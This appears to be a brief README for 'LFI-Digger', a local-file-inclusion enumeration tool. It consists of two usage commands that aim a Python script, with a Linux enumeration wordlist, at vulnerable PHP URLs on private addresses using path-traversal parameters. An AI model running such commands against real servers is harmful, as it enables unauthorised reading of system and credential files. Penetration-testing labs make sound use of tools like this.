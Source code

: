 # LFI-Digger

Usage example:
<br/>
python lfidigger.py "http://10.17.0.11/lfi_vulnerable.php?lfiparam=%2f..%2f..%2fLFI" ./dics/linux_enum.txt
<br/>
python lfidigger.py http://10.17.0.30/page.php?c=LFI ./dics/linux_enum.txt
